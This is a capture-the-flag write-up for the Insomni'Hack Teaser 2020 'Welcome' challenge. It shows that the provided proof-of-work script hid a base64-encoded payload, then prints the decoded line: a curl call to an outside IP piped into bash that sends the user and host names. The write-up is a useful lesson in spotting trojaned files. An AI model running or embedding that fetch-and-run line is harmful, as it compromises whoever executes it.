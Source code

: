 # [cd ../](../index.md)
# Welcome

> This year we added a Proof of Work to some of our challenges.

> Just run `python pow.py <target>`, were `target` is the value provided by the server and get the flag.

> [pow](https://storage.googleapis.com/insomnihack/media/pow.zip)

> `nc welcome.insomnihack.ch 1337`

# Files we got
- [pow.zip](from_box/pow.zip)
- And if u extract it u got [pow.py](from_box/pow-b39e9d8f81a48ac92097ce060d587ace718c2db8bc9b3906ac640b90a62dc497.py)

# Start

Just run `nc welcome.insomnihack.ch 1337` and we got 
```
======================================================================
============   Welcome to the Insomni'Hack Teaser 2020!   ============
======================================================================

Give me an input whose md5sum starts with "06b292" and get the flag ;)

```
- It needs an input
- We got the starting of the md5 string but we need to input the cleartext one  
Like: the server gives `098f6b` and we have to guess the original string that is `test` now. To check it we can use `echo -n "test" | md5sum` and we got `098f6bcd4621d373cade4e832627b4f6  -`

# Cracking
- We have to crack it somehow so lets take a look at the script we got :D
- It has some weird encoded base64 string in an `exec` function.  
Thats weird af. Decrypt it! We got
```
global i;i+=1337;x=os.name;x+="/$(whoami)@$(hostname)|bash"if x!="nt"else"/%USERNAME%@%USERDOMAIN%";os.system("curl -Ns 34.65.187.141/"+x)
```
- DELETE THIS SH1T
- Now we have the correct code([pow_corrected.py](pow_corrected.py))
```
#!/usr/bin/python3

import hashlib
import sys

target = sys.argv[1]
i = 0

def pow():
    global i, target
    while True:
        m = hashlib.md5()
        m.update(str(i).encode())
        h = m.hexdigest()
        if h[:6] == target:
            print(i)
            exit(0)
        i += 1

if __name__ == '__main__':
    pow()
```
## Getting the flag
- Just connect to nc `nc welcome.insomnihack.ch 1337`
- Copy the string u got `d2295b`
- Run the decryptor `python pow_corrected.py d2295b`
- Send the output `15882830`
# Got it
```
======================================================================
============   Welcome to the Insomni'Hack Teaser 2020!   ============
======================================================================

Give me an input whose md5sum starts with "d2295b" and get the flag ;)
15882830


MITM are real: check SHA, check code, ...

INS{Miss me with that fhisy line}
```
The flag is `INS{Miss me with that fhisy line}`

